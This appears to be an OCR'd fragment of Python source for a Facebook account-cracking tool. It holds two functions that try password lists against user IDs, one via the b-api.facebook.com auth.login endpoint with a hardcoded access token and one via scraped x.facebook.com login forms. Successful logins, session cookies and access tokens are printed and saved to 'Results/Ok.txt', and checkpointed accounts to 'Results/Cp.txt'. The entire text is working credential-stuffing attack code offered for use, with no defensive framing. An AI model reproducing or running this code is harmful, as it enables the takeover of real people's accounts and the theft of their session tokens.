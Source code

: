             send = ses.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + str(uid) + '&password=' + str(pw) + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=headers_)
            if 'session_key' in send.text and 'EAAA' in send.text:
                print("\r\x1b[1;92m[Ok] %s|%s %s\x1b[1;97m"%(uid, pw, send.json()['access_token']))
                ok.append("%s|%s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s|%s\n"%(uid, pw))
                break
            elif 'www.facebook.com' in send.json()['error_msg']:
                print("\r\x1b[1;93m[Cp] %s|%s\x1b[1;97m       "%(uid, pw))
                cp.append("%s|%s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s|%s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack X.Facebook.com
def crack2(ids, uid, pwx, **kwargs):
    global loop, uas, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s Ok:-%s - Cp:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://x.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "x.facebook.com", "referer": "https://x.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://x.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://x.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fx.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[Ok] %s|%s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s|%s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s|%s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[Cp] %s|%s\x1b[1;97m       "%(uid, pw))
                cp.append("%s|%s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s|%s\n"%(uid, pw))
                break
            else:
                continue